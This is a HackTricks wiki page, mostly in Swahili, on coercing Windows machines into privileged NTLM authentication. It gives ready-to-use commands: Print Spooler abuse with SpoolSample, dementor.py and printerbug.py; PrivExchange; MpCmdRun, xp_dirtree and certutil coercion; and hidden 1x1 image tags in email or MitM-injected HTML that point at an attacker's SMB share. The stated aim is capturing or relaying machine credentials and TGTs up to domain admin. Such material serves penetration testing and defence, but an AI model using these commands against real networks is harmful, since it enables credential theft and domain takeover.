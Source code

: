 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) ni **mkusanyiko** wa **vichocheo vya uthibitishaji wa mbali** vilivyotengenezwa kwa C# kwa kutumia MIDL compiler ili kuepuka utegemezi wa wahusika wengine.

## Spooler Service Abuse

Ikiwa huduma ya _**Print Spooler**_ ime **wezeshwa,** unaweza kutumia baadhi ya akidi za AD zinazojulikana tayari ili **kuomba** kwa seva ya uchapishaji ya Domain Controller **sasisho** kuhusu kazi mpya za uchapishaji na umwambie tu **atumie arifa kwa mfumo fulani**.\
Kumbuka wakati printer inatuma arifa kwa mifumo isiyo ya kawaida, inahitaji **kujiandikisha dhidi** ya **mfumo** huo. Hivyo, mshambuliaji anaweza kufanya huduma ya _**Print Spooler**_ kujiandikisha dhidi ya mfumo wowote, na huduma hiyo itatumia **akaunti ya kompyuta** katika uthibitishaji huu.

### Finding Windows Servers on the domain

Kwa kutumia PowerShell, pata orodha ya masanduku ya Windows. Seva kwa kawaida ni kipaumbele, hivyo hebu tuzingatie hapo:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Kutafuta huduma za Spooler zinazot listening

Kwa kutumia toleo lililobadilishwa kidogo la @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), angalia kama Huduma ya Spooler inasikiliza:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Unaweza pia kutumia rpcdump.py kwenye Linux na kutafuta Protokali ya MS-RPRN
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Omba huduma ithibitishe dhidi ya mwenyeji yeyote

Unaweza kukusanya [**SpoolSample kutoka hapa**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
au tumia [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) au [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) ikiwa uko kwenye Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Kuunganisha na Delegation Isiyo na Kikomo

Ikiwa mshambuliaji tayari ameathiri kompyuta yenye [Unconstrained Delegation](unconstrained-delegation.md), mshambuliaji anaweza **kufanya printer ithibitishe dhidi ya kompyuta hii**. Kwa sababu ya delegation isiyo na kikomo, **TGT** ya **akaunti ya kompyuta ya printer** itakuwa **imehifadhiwa katika** **kumbukumbu** ya kompyuta yenye delegation isiyo na kikomo. Kwa kuwa mshambuliaji tayari ameathiri mwenyeji huu, ataweza **kurejesha tiketi hii** na kuitumia vibaya ([Pass the Ticket](pass-the-ticket.md)).

## RCP Kulazimisha uthibitisho

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Shambulio la `PrivExchange` ni matokeo ya kasoro iliyopatikana katika **kipengele cha `PushSubscription` cha Exchange Server**. Kipengele hiki kinaruhusu server ya Exchange kulazimishwa na mtumiaji yeyote wa kikoa mwenye sanduku la barua kuthibitisha kwa mwenyeji wowote aliyepewa na mteja kupitia HTTP.

Kwa kawaida, **huduma ya Exchange inafanya kazi kama SYSTEM** na inapewa mamlaka kupita kiasi (hasa, ina **WriteDacl privileges kwenye kikoa kabla ya Sasisho la Jumla la 2019**). Kasoro hii inaweza kutumika kuweza **kupeleka taarifa kwa LDAP na kisha kutoa hifadhidata ya NTDS ya kikoa**. Katika hali ambapo kupeleka kwa LDAP haiwezekani, kasoro hii bado inaweza kutumika kupeleka na kuthibitisha kwa wenyeji wengine ndani ya kikoa. Ufanisi wa shambulio hili unatoa ufikiaji wa haraka kwa Msimamizi wa Kikoa na akaunti yoyote ya mtumiaji wa kikoa iliyoidhinishwa.

## Ndani ya Windows

Ikiwa tayari uko ndani ya mashine ya Windows unaweza kulazimisha Windows kuungana na server kwa kutumia akaunti zenye mamlaka na: 

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Au tumia mbinu hii nyingine: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Inawezekana kutumia certutil.exe lolbin (binary iliyosainiwa na Microsoft) kulazimisha uthibitishaji wa NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Ikiwa unajua **anwani ya barua pepe** ya mtumiaji anayeingia ndani ya mashine unayotaka kuathiri, unaweza tu kumtumia **barua pepe yenye picha ya 1x1** kama
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
na wakati anafungua, atajaribu kuthibitisha.

### MitM

Ikiwa unaweza kufanya shambulio la MitM kwa kompyuta na kuingiza HTML kwenye ukurasa atakaouona, unaweza kujaribu kuingiza picha kama ifuatavyo kwenye ukurasa:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Ikiwa unaweza kukamata [NTLMv1 challenges soma hapa jinsi ya kuzivunja](../ntlm/#ntlmv1-attack).\
_Kumbuka kwamba ili kuvunja NTLMv1 unahitaji kuweka changamoto ya Responder kuwa "1122334455667788"_

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
